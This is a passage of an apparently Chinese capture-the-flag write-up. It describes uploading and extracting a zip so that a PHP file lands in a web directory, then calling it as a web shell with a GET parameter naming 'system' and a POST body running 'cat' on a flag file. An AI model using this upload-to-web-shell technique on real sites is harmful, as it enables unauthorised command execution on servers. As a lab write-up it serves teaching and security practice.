 ![image-20231101224704308](assets/image-20231101224704308.png)

上传成功后，可以看到上传目录为`image/test.zip`

然后解压一下，它会显示可以解压且会保存，`imagepng($second, 'example/'.$final_name)`这边的final_name是我们解压后文件的名字。

![image-20231101221734575](assets/image-20231101221734575.png)

最后到/example/1.php目录下执行shell

```php
get:/example/1.php?0=system
post:1=cat /etc/fllagggaaaa/ejklwfthreu8rt/fgrtgergyer/ergerhrtytrh/rtehtrhytryhre/gfhtryrtgrewfre34t/t43ft34f/flag11e3kerjh3u
```

![image-20231101221847021](assets/image-20231101221847021.png)
